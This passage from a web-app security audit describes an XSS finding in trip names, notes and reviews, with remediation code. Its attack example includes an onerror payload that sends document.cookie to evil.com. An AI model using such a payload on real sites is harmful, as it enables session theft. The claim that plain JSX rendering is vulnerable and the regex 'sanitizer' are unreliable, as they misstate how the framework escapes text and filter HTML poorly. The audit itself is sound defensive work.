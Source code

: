 
### **2. CROSS-SITE SCRIPTING (XSS)**

#### **Issue 2.1: User-Generated Content Not Sanitized** 🟠 **HIGH**

**Risk:** High  
**Impact:** Attackers can inject malicious scripts via reviews, trip names, notes.

**Vulnerable Areas:**
- Trip names & descriptions
- Trip item notes
- Review text
- Restaurant/activity names (if user-submitted)
- Chatbot responses (if displaying raw HTML)

**Attack Example:**
```javascript
// Attacker creates a trip with malicious name:
{
  name: "<script>alert('XSS')</script>",
  description: "<img src=x onerror='fetch(\"https://evil.com/steal?cookie=\"+document.cookie)'>"
}
```

**Current Code:**
```typescript
// ❌ VULNERABLE: Direct rendering without sanitization
<h1>{trip.name}</h1>
<p>{trip.description}</p>
```

**Fix:**
```typescript
// ✅ SAFE: Use DOMPurify or strip HTML
import DOMPurify from 'isomorphic-dompurify';

<h1>{DOMPurify.sanitize(trip.name)}</h1>
```

Or better: **Validate input server-side before saving to Airtable.**

```typescript
// In server actions
function sanitizeInput(input: string): string {
  return input
    .replace(/<script[^>]*>.*?<\/script>/gi, '')
    .replace(/<[^>]+>/g, '')
    .trim();
}
```

**Install:**
```bash
npm install isomorphic-dompurify
```

---